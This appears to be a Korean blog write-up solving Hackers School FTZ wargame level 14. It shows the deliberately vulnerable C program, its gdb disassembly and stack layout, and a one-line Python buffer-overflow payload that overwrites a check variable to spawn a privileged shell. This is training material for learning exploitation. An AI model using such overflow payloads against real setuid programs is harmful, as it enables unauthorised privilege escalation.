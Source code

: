 ```yaml
---
date: '2022-10-04'
before : '2022-10-03'
after : '2022-10-05'
title: '해커스쿨 FTZ 레벨 14'
categories: [ 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

또다시 BOF 문제이다. 이번에는 입력 크기에 제한을 받았지만, 배열의 길이가 20인것에 반해 입력은 45까지(...) 받는다.


그리고 저번 문제와 다르게, check값만 일치한다면 shell을 실행해준다.


### 1. Level 14

바로 cat hint로 소스코드를 확인해보자.
```
#include <stdio.h>
#include <unistd.h>

main()
{ int crap;
  int check;
  char buf[20];
  fgets(buf,45,stdin);
  if (check==0xdeadbeef)
   {
     setreuid(3095,3095);
     system("/bin/sh");
   }
}
```

말했던 것처럼, 오버플로우가 충분히 일어날 수 있는 구조이다. 한 번 코드를 복사/컴파일 해서 gdb로 disassemble 해보자.

```
0x080483b8 <main+0>:    push   ebp
0x080483b9 <main+1>:    mov    ebp,esp
0x080483bb <main+3>:    sub    esp,0x38
0x080483be <main+6>:    and    esp,0xfffffff0
0x080483c1 <main+9>:    mov    eax,0x0
0x080483c6 <main+14>:   sub    esp,eax
0x080483c8 <main+16>:   sub    esp,0x4
0x080483cb <main+19>:   push   ds:0x80495d0
0x080483d1 <main+25>:   push   0x2d
0x080483d3 <main+27>:   lea    eax,[ebp-56] // char buf[20]
0x080483d6 <main+30>:   push   eax
0x080483d7 <main+31>:   call   0x80482d8 <fgets>
0x080483dc <main+36>:   add    esp,0x10
0x080483df <main+39>:   cmp    DWORD PTR [ebp-16] // if, 12-16 = int check
0x080483e6 <main+46>:   jne    0x804840d <main+85>
0x080483e8 <main+48>:   sub    esp,0x8
0x080483eb <main+51>:   push   0xc17
0x080483f0 <main+56>:   push   0xc17
0x080483f5 <main+61>:   call   0x80482f8 <setreuid>
0x080483fa <main+66>:   add    esp,0x10
0x080483fd <main+69>:   sub    esp,0xc
0x08048400 <main+72>:   push   0x80484bc
```

생각보다 어렵지 않은 구조다. 재구성해보면 :

```
char[20] // 56-36
dummy[20] // 36-16
int check // 16-12
```
따라서 40바이트의 \x90과 4바이트의 int의 값을 맞춰주면 된다. 1 바이트나 여유가 남는다(!)

```
@BufferOverflow :
(python -c 'print "A"*40+"\xef\xbe\xad\xde"'; cat) | ./attackme
```

비밀번호 : guess what


문제가 조금씩 어려워지고 있다. 얼른 Level20까지 끝냈으면...

---
## Source

- 해커스쿨 FTZ
- Me!
